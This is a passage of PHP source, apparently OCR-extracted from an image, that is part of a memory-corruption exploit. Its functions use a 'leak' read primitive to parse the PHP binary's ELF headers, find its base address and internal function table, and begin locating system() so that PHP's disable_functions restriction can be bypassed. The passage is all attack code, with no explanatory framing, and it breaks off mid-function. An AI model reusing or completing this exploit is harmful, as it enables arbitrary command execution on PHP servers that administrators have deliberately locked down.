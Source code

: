````
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
````